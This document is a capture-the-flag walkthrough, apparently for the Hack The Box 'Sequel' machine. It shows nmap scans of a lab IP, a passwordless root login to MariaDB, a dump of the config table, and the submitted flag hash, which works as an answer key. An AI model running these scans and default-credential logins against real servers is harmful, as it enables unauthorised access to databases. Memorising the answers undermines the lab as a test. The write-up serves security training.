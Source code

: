 #### Guide on SEQUEL CTF Machine

#####When you install a fresh instance of MariaDB, there are typically several default databases that are created to manage various aspects of the database system and perform essential functions. These default databases include:

#####mysql: The mysql database contains system tables that store metadata and access control information. It is used for user and privilege management. The user table, for example, stores user account information, and the db table stores information about databases and access permissions.

#####information_schema: The information_schema database provides information about the database server and its schemas, tables, columns, and more. It is a system database that is used for querying metadata about the database server.

#####performance_schema: The performance_schema database is used for performance monitoring and diagnostics. It contains various tables that help monitor server performance and resource usage. This database is primarily used for profiling and analyzing the performance of the MariaDB server.

#####test: The test database is an empty database that may be present after installation. It is not typically used in production and is mainly for testing and experimentation.

#####hese default databases are essential for the functioning of the MariaDB server, as they manage user accounts, store metadata, and provide performance monitoring capabilities. When you install MariaDB, these databases are created automatically to support the database management system's core functionality.

1. During our scan, which port do we find serving MySQL?<br>
3306

	- the -F flag is used for fast scan mode. It scans the top 100 most commond tcp/udp ports.
	```bash
	nmap -F 10.129.144.109    
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:55 PST
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql

	Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds
	```

2. What community-developed MySQL version is the target running?<br>
mariadb
	```bash
	nmap -F -sC 10.129.144.109
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 15:05 PST
	Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	NSE Timing: About 98.40% done; ETC: 15:06 (0:00:01 remaining)
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
	|   Thread ID: 73
	|   Capabilities flags: 63486
	|   Some Capabilities: LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, Support41Auth, InteractiveClient, SupportsLoadDataLocal, IgnoreSigpipes, SupportsTransactions, DontAllowDatabaseTableColumn, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
	|   Status: Autocommit
	|   Salt: Y<`NDL0H]xfu<fmoiBK4
	|_  Auth Plugin Name: mysql_native_password

	Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
	```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?<br>
-u

	- SHOW databases; - to show all databases
	- USE database_name - to use a database
	- SHOW tables - to show all tables of the selected database
	- SELECT * FROM table_name - to show all the contents of a table

	```bash
	mysql -h 10.129.144.109 -u root
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 142
	Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MariaDB [mysql]> SHOW databases;
	+--------------------+
	| Database           |
	+--------------------+
	| htb                |
	| information_schema |
	| mysql              |
	| performance_schema |
	+--------------------+
	4 rows in set (0.241 sec)

	MariaDB [mysql]> USE htb;
	Database changed
	MariaDB [htb]> SHOW tables;

	+---------------+
	| Tables_in_htb |
	+---------------+
	| config        |
	| users         |
	+---------------+
	2 rows in set (0.244 sec)

	MariaDB [htb]> SELECT * FROM config;
	+----+-----------------------+----------------------------------+
	| id | name                  | value                            |
	+----+-----------------------+----------------------------------+
	|  1 | timeout               | 60s                              |
	|  2 | security              | default                          |
	|  3 | auto_logon            | false                            |
	|  4 | max_size              | 2M                               |
	|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
	|  6 | enable_uploads        | false                            |
	|  7 | authentication_method | radius                           |
	+----+-----------------------+----------------------------------+
	7 rows in set (0.241 sec)
	```

4. Which username allows us to log into this MariaDB instance without providing a password?<br>
root

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?<br>
*

6. In SQL, what symbol do we need to end each query with?<br>
;

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?<br>
htb
	- from the info that we got, htb is the only database that is not a default database of MySQL, so we can assume that the flag is in there
	
8. Submit root flag<br>
7b4bec00d1a39e3dd4e021ec3d915da8
	
	
	
	

